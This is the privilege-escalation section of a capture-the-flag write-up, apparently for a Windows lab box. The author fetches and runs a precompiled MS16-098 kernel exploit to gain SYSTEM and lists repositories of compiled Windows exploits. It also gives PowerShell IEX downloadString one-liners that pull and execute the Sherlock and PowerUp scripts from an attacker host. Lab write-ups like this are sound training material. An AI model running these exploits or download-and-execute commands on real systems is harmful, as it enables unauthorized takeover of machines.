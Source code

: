 This gives me a big ouput, with a lot of exploit ! I tested a few of them, but the one who work best for me is MS16-098. Go to the exploit-db link [https://www.exploit-db.com/exploits/41020/](https://www.exploit-db.com/exploits/41020/), in the two first line of the exploit there is a comment who gives us a link to the exploit already compiled, let's use it !

```
wget https://github.com/offensive-security/exploitdb-bin-sploits/raw/master/bin-sploits/41020.exe
```

And now, launch it :

```
C:\Users\kostas\Desktop>\\10.10.14.10\liodeus\41020.exe
\\10.10.14.10\liodeus\41020.exe
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\Users\kostas\Desktop>whoami 
whoami
nt authority\system
```

Voila ! I'm nt authority\system, I can now read the flags ! 

## Miscellaneous

------

Two repository with already compiled Windows exploits :

- [https://github.com/abatchy17/WindowsExploits](https://github.com/abatchy17/WindowsExploits)
- [https://github.com/SecWiki/windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)

Two scripts, for Windows privilege escalation check :

- [https://github.com/rasta-mouse/Sherlock](https://github.com/rasta-mouse/Sherlock)
- [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

Here's different method to launch them :

```
powershell.exe -exec bypass -Command "& {Import-Module .\Sherlock.ps1; Find-AllVulns}"
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/Sherlock.ps1') ; Find-AllVulns"

powershell.exe -exec bypass -Command "& {Import-Module .\PowerUp.ps1; Invoke-AllChecks}"
powershell.exe "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.10:8000/PowerUp.ps1') ;  Invoke-AllChecks"
```

## Flags

------
